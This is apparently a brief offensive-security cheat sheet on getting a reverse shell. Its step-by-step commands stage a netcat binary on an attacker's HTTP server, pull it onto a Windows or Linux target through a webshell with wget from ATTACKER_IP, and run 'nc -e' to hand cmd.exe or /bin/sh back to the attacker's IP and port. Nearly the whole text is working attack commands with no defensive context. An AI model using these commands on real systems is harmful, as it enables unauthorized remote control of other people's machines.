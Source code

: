 Using a revshell, multiple ways can be done to get a revshell - but this way's consistent.

Transfer nc to target! 

Windows target:
```bash
sudo cp /usr/share/windows-resources/binaries/nc.exe .
```
Linux target:
```bash
sudo cp /usr/bin/nc .
```
```bash
python -m http.server 80
```

On windows webshell:
```batch
powershell wget -Uri http://$(ATTACKER_IP)/nc.exe -OutFile C:\Windows\Temp\nc.exe
```
Linux:
```bash
wget http://$(ATTACKER_IP)/nc
```
Finally:
```batch
C:\Windows\Temp\nc.exe -e cmd.exe $(ATTACKER_IP) $(ATTACKER_PORT)
```
or
```bash
nc -e /bin/sh $(ATTACKER_IP) $(ATTACKER_PORT)
```

